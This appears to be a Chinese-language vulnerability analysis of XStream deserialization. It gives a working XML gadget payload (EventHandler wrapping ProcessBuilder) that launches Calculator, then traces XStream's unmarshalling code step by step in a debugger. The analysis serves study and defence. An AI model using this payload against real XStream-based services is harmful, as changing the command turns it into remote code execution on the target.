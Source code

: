  
Payload:  
```
String payload = "<sorted-set>\n" +
        "    <dynamic-proxy>\n" +
        "        <interface>java.lang.Comparable</interface>\n" +
        "        <handler class=\"java.beans.EventHandler\">\n" +
        "            <target class=\"java.lang.ProcessBuilder\">\n" +
        "                <command>\n" +
        "                    <string>open</string>\n" +
        "                    <string>-na</string>\n" +
        "                    <string>Calculator</string>\n" +
        "                </command>\n" +
        "            </target>\n" +
        "            <action>start</action>\n" +
        "        </handler>\n" +
        "    </dynamic-proxy>\n" +
        "</sorted-set>";

XStream xStream = new XStream();
xStream.fromXML(payload);
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUpA0TqibHwgeA96YjUgssJ1iauFdNTAI7cnicwxNsUEszD0rXq8YJwYDEQ/640?wx_fmt=png "")  
##### 漏洞过程  
  
我们在forXML这一行下断点:  
  
一路跟过来跟到AbstractTreeMarshallingStrategy类的unmarshal方法，这里会调用start方法进行解析XML。我们跟进去。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUzgwqnNtFT5W1847zphoghlYOuqbuicB7apiamGYla9eecYTyY1sJxfFA/640?wx_fmt=png "")  
  
来到start方法，首先会调用readClassType去获取我们的payload中的跟标签类型，也就是   
</sorted-set>  
标签的类型。我们跟进去readClassType方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUKaXANJffIvkyG6CUNjBP7DuicrVLpPQChV8eUDbAWNWl9xcRZIowiauA/640?wx_fmt=png "")  
  
在readClassType方法中这个调用链比较长。他首先会从readClassAttribute方法进行获取，获取不到之后继续调用realClass方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUQicqCA8cR7GyLhVicIF7TUTD03pHhyCW7blltSc8zGbBokSHQH1AImBQ/640?wx_fmt=png "")  
  
最后会在nameToType找到我们这个标签对应的类型，nameToType是一个map集合,最后找到之后进行返回。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUT2rUrRpqdLXia00NzFK20dacGBsviclqicjN84Rc6vYbPD4NfruvNODMQ/640?wx_fmt=png "")  
  
接着调用convertAnother方法。对java.util.SortedSet类型进行转换，这里首先调用defaultImplementationOf方法，找到他的实现类，因为java.util.SortedSet是一个接口所以需要先找到他的实现类。我们跟进去。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUZCHaSiaHdsU1ApOIWcSAjGVlGNvOq1CwhKXJib4ibhWHbMibxo8LtdW2Vg/640?wx_fmt=png "")  
  
这里的调用链也比较长，最后在typeToImpl这个HashMap集合中找到了java.util.SortedSet的实现类，进行返回。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mpZdHy2QFJdmXGM1eZ3j0jUeIjN81ntrUbDHVxxDZB1wUmdqhFYqyZIPViaYVVticdPiaujwFSjAgD4g/640?wx_fmt=png "")  
  